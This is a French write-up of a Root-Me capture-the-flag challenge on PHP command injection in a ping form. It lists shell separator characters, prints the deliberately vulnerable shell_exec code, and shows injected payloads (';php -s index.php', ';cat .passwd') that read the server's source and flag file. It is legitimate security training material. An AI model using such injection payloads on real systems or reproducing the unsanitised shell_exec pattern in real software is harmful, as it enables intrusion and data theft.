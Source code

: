# PHP - Injection de commande

## Enoncé

```
Détournez l’usage premier de ce service.

Note : le mot de passe de validation est dans index.php.
```

## Procédure

1. Analyse du code source + test

Il y a une balise input avec en placeholder "127.0.0.1" et un input envoyer.<br>
Je fais ce qui est indiquer est un fichier index.php est chargé avec les résultats d'une requête ping vers 127.0.0.1.

Header : 

```
POST /web-serveur/ch54/index.php HTTP/1.1
Host: challenge01.root-me.org
Content-Length: 12
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge01.root-me.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge01.root-me.org/web-serveur/ch54/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

ip=127.0.0.1
```


Réponse : 

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.072 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.090 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.052 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2036ms
rtt min/avg/max/mdev = 0.052/0.071/0.090/0.015 ms
```

2. Utilisation de caractères échappatoire en bash

Petit liste pour exemple : 

```
;
|
&
||
&&
```

3. Exploitation

```
;php -s index.php

<?php 
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
```

Le flag se trouve donc dans le fichier .passwd

```
;cat .passwd
S3rXXXXXXXXXXXure
```